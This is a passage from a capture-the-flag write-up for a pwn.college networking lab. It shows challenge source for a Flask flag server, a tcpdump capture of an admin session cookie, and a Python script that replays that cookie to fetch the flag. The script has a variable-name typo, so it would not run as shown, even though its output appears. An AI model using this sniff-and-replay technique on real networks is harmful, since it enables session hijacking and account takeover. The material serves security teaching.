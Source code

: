 ```py title="/challenge/run" showLineNumbers
            if flask.session.get("user", None) != "admin":
                flask.abort(403, "NOPE")
            return flag

        app.secret_key = os.urandom(8)
        app.run("0.0.0.0", 80)

client_host = ClientHost("ip-10-0-0-1", privileged_uid=parent_process.uids().effective)
server_host = ServerHost("ip-10-0-0-2")
network = Network(hosts={ client_host: "10.0.0.1", server_host: "10.0.0.2" }, subnet="10.0.0.0/24")
network.run()

client_host.interactive(environ=parent_process.environ())
```

The `admin` logs in on `10.0.0.1` and gets a session cookie.
This cookie is then used to access the flag from the `/flag` endpoint on `10.0.0.2`.

Let's sniff the cookie.

```
root@ip-10-0-0-1:/# tcpdump -i any -A 'tcp port 80' | grep --color=always -E 'Cookie:|Set-Cookie:'
-bash: child setpgid (18 to 2439): Operation not permitted
tcpdump: WARNING: any: That device doesn't support promiscuous mode
(Promiscuous mode not supported on the "any" device)
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
Cookie: session=eyJ1c2VyIjoiYWRtaW4ifQ.aFEq0w.LW1TQizb2Gju_C90GXMogivpu1g
Cookie: session=eyJ1c2VyIjoiYWRtaW4ifQ.aFEq0w.LW1TQizb2Gju_C90GXMogivpu1g

# --- snip ---
```

Now we can use the cookie to get the flag from `http://10.0.0.2/flag`.

```py title="~/script.py" showLineNumbers
import requests

cookies = {
    "session": "eyJ1c2VyIjoiYWRtaW4ifQ.aFEq0w.LW1TQizb2Gju_C90GXMogivpu1g"
}

responnse = requests.get("http://10.0.0.2/flag", cookies = cookies)
print(response.text)
```

```
root@ip-10-0-0-1:/# python ~/script.py
pwn.college{s_X0-uEuI4QDPvCeidQDJnjs1ke.QXxQDM2EDL4ITM0EzW}
```

&nbsp;

## Network Configuration

